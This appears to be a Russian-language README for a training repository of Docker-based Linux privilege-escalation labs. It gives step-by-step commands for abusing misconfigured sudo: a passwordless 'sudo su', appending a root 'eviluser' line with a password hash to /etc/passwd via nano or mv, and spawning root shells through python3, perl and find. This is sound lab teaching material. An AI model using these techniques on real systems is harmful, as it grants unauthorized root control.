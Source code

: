 # Escalatoria
Этот репозиторий содержит набор упражнений по повышению привилегий в Linux
Репозиторий включает в себя УКАЗАТЬ ФИНАЛЬНОЕ КОЛИЧЕСЧТВО файлов для Docker,
из которых формируются уязвимые образы. Представлены упражнения по повышению привилегий
с использованием следующих техник:

* Повышение привилегий за счет неправильных настроек sudo
* Повышение привилегий за счет неправильно установленных suid для файлов
* Повышение привилегий за счет неправильно установленных capabilities для бинарных файлов
* Повышение привилегий через crontab
* Повышение привилегий через переменные окружения
***
### Получение репозитория
* Скопируйте репозиторий на свою машину командой
`git clone https://github.com/GeenStack/Escalatoria`
* Установите Docker
* Приступайте!
***
### Повышение привилегий за счет неправильных настроек sudo
***
###### 1. ДОСТУПНО ВСЕ!
В этом упражнении мы увидим, как опасна настройка sudo, при которой пользователю разрешено 
выполнение любых команд без пароля
1.  Перейдите в каталог abuse_sudo/nopasswd/ командой `cd abuse_sudo/nopasswd`
2.  Соберите уязвимый образ командой `docker build -t sudo_no_passwd .`
3.  Запустите контейнер из собранного образа и перейдите в его оболочку с помощью команды

    `docker run -it sudo_no_passwd /bin/bash`
4.  Итак, первое, с чего мы начинаем свое повышение привилегий - проверка наличия у текущего пользователя прав sudo. Выполните команду 
`sudo -l`

![sudo -l result](/pictures/pic1.png)

5.  Мы видим, что для пользователя escalator через sudo доступно выполнение любых команд от имени суперпользователя без ввода пароля, для повышения привилегий достаточно выполнить `sudo su`

![sudo su result](/pictures/pic2.png)

Это был достаточно легкий пример повышения привилегий. Попробуем что-то другое

***
###### 2. Приложения, выполняющиеся через sudo
###### 2.1 Приложения, которые могут осуществлять запись в файл
Теперь мы приступим к техникам повышения привилегий в том случае, когда нам доступно sudo на бинарные файлы, которые могут осуществлять запись в файл. Мы рассмотрим повышение привилегий через sudo на текстовый редактор nano и через sudo на команду mv

1.  Перейдите в каталог abuse_sudo/sudo_on_bin/write_file/abuse_nano
2.  Соберите уязвимый образ `docker build -t abuse_nano .`
3.  Запустите контейнер из собранного образа и перейдите в его оболочку с помощью команды

    `docker run -it abuse_nano /bin/bash`
4.  Выполните `sudo -l`

![sudo -l result](/pictures/pic3.png)

5.  Мы видим, что мы можем через sudo использовать nano, и редактировать файлы с правами root. 
Для повышения привилегий необходимо отредактировать файл /etc/passwd, создав своего пользователя с правами root. 
Таким образом также осуществляется закрепление в системе. Для этого необходимо проделать следующие шаги:
* На своем хосте сгенирируем хэш пароля evilpass для пользователя eviluser командой 

`openssl passwd -1 -salt eviluser evilpassword`

![generate password for eviluser](/pictures/pic4_1.png)

* Изменим внутри контейнера файл /etc/passwd используя nano `sudo nano /etc/passwd`. Добавим своего пользователя, добавив в конец файла строку: eviluser:$1$eviluser$eIaLEOmpQR3YjlJE1f/En.:0:0:/root/root:/bin/bash

![add eviluser](/pictures/pic5.png)

* Сохраним файл и откроем терминальную сессию для пользователя eviluser командой `su eviluser`, вводим пароль evilpassword. В итоге мы получаем сессию пользователя с правами root

![su eviluser](/pictures/pic6.png)

Теперь давайте попробуем повысить привилегии, используя sudo на команду mv
1.  Перейдите в каталог abuse_sudo/sudo_on_bin/write_file/abuse_mv
2.  Соберите уязвимый образ `docker build -t abuse_mv .`
3.  Запустите контейнер из собранного образа и перейдите в его оболочку с помощью команды

    `docker run -it abuse_mv /bin/bash`
4.  Выполните `sudo -l`

![sudo -l result](/pictures/pic7.png)

5. Мы видим, что нам доступно выполнение через sudo команды mv. Выстроим следующий вектор повышения привилегий: создадим копию файла /etc/passwd, добавим в нее своего пользователя с правами root, заменим с помощью команды mv оригинальный /etc/passwd нашей копией. Выполните следующие шаги:
* Выполните в контейнере команду `cp /etc/passwd passwd_copy`
* Внесите в passwd_copy строку eviluser:$1$eviluser$eIaLEOmpQR3YjlJE1f/En.:0:0:/root/root:/bin/bash
* Выполните команду `sudo mv passwd_copy /etc/passwd`
На скриншоте ниже продемонстрирован перезаписанный командой mv файл /etc/passwd

![sudo -l result](/pictures/pic8.png)

* Выполните команду `su eviluser`, вы получите сессию пользователя с правами root

###### 2.2 Приложения, которые могут вызвать shell

В некоторых случаях нам может быть доступно выполнение через sudo приложений, которые могут вызывать оболочу shell. Мы рассмторим примеры получения оболочки через интерпретаторы python, perl, а также вызов оболочки с помощью утилиты find.

1.  Перейдите в каталог abuse_sudo/sudo_on_bin/spawn_shell/shell_via_python
2.  Соберите уязвимый образ командой `docker build -t shell_via_python .`
3.  Запустите контейнер из собранного образа и перейдите в его оболочку с помощью команды

    `docker run -it shell_via_python /bin/bash`
    
4.  Результат команды `sudo -l` говорит нам о том, что нам доступно выполнение python3 от имени суперпользователя.
5.  Для повышения привилегий запустите python3 через sudo, импортируйте модуль pty, вызовите его метод spawn, передав ему аргумент '/bin/sh'. Вы можете также выполнить команду 
`sudo python3 -c "import pty; pty.spawn('/bin/sh')"`

На скриншоте ниже Вы можете наблюдать описаные процедуры для повышения привилегий:
![python escalation](/pictures/pic9.png)

Вызов оболочки через perl осуществляется по похожему принципу.
1.  Перейдите в каталог abuse_sudo/sudo_on_bin/spawn_shell/shell_via_perl
2.  Соберите уязвимый образ командой `docker build -t shell_via_perl .`
3.  Запустите контейнер из собранного образа и перейдите в его оболочку с помощью команды

`docker run -it shell_via_perl /bin/bash`

4.  Результат команды `sudo -l` говорит нам о том, что нам доступно выполнение perl от имени суперпользователя.
5.  Для повышения привилегий выполните команду
`sudo perl -e 'exec "/bin/sh";'`

На скриншоте ниже Вы можете наблюдать описаные процедуры для повышения привилегий:
![perl escalation](/pictures/pic10.png)

Несколько интереснее выглядит вызов оболочки через утилиту find.

1.  Перейдите в каталог abuse_sudo/sudo_on_bin/spawn_shell/shell_via_find
2.  Соберите уязвимый образ командой `docker build -t shell_via_find .`
3.  Запустите контейнер из собранного образа и перейдите в его оболочку с помощью команды

`docker run -it shell_via_find /bin/bash`

4.  Результат команды `sudo -l` говорит нам о том, что нам доступно выполнение find от имени суперпользователя.
5.  Для повышения привилегий выполните команду
`sudo find . -exec /bin/sh \; -quit`

На скриншоте ниже Вы можете наблюдать описаные процедуры для повышения привилегий:
![find escalation](/pictures/pic11.png)
